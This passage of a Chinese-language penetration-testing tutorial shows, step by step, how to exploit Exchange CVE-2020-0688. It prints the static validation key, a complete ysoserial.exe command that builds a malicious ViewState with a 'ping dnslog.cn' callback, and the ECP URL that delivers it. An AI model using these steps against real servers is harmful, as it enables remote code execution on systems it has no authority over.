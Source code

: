 

## 0x04 RCE 漏洞

网上一搜Exchange的RCE漏洞还挺多的,但是在实际渗透中,只需要一个普通用户凭据,不需要其他条件的,主要有CVE-2020-0688和CVE-2020-17144

### <a class="reference-link" name="CVE-2020-0688"></a>CVE-2020-0688

在拿到一个普通用户凭据情况下的RCE,Exchange2010没有开箱即用的POC

静态的密钥有

```
validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF
validationalg = SHA1
```

我们要构造ViewState还需要`viewstateuserkey`和`__VIEWSTATEGENERATOR`

`viewstateuserkey`就是用户的`ASP.NET_SessionId`，在cookie 底下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a5d079b3610cc44a.png)

`__VIEWSTATEGENERATOR`是一个隐藏字段。可以这样获取

```
document.getElementById("__VIEWSTATEGENERATOR").value
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01be8fc7568b96f1f8.png)

现在我们已经有了`validationkey`,`validationalg`,`viewstateuserkey`,`__VIEWSTATEGENERATOR`。就可以用使用YSoSerial.net生成序列化后的恶意的ViewState数据。

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "ping dnslog.cn" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="`{`填入__VIEWSTATEGENERATOR`}`" --viewstateuserkey="`{`填入viewstateuserkey，也就是ASP.NET_SessionId`}`" --isdebug –islegacy
```

[![](https://p2.ssl.qhimg.com/t0193fa1e4659017f5c.png)](https://p2.ssl.qhimg.com/t0193fa1e4659017f5c.png)

然后构造URL

```
/ecp/default.aspx?__VIEWSTATEGENERATOR=`{`填入__VIEWSTATEGENERATOR`}`&amp;__VIEWSTATE=`{`填入YSoSerial.net生成的urlencode 过的ViewState`}`
```

浏览器访问就行

[![](https://p1.ssl.qhimg.com/t01294ac4776d13bf45.png)](https://p1.ssl.qhimg.com/t01294ac4776d13bf45.png)
